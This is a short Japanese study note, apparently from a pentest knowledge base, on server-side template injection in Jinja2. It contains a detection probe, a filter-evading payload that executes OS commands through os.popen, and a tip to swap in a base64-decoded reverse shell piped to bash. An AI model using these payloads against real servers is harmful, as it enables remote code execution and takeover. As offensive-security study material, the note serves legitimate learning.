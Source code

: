 ```yaml
---
tags:
  - Offensive
---
```

# サーバーサイドテンプレートインジェクション(SSTI)

Webアプリのサーバーで実行される、テンプレートエンジンに悪意のあるコードを埋め込む攻撃。テンプレートとなるHTMLを用意し、ユーザーの入力やデータベース等から読み込んだデータから動的に生成する仕組みを悪用する。ユーザーが入力できるところ（フォーム、リクエストヘッダー等）にテンプレート文字列を渡し、サーバーで実行されシェル獲得等ができる。

## ペイロード

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
### [[Jinja2]]

- 検証用
	`{{7*7}}`
	どこかにこの実行結果である*49*と表示されていれば、SSTI可能。
- [[ReverseShell]]
```jinja2
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
*id*コマンドの代わりに、[[ReverseShell]]のペイロードを*Base64*にして`echo -n <Base64> | base64 -d | bash`を入れると、[[ReverseShell]]を獲得できる。

> Pythonでは、メソッドか関数から`__globals__`を伝うことで任意のコードを実行できる？
> `func.__globals__['__builtins__'].__import__('os').popen('id').read()`



---

## 参照

1. https://www.youtube.com/watch?v=DYp9TFnZH-g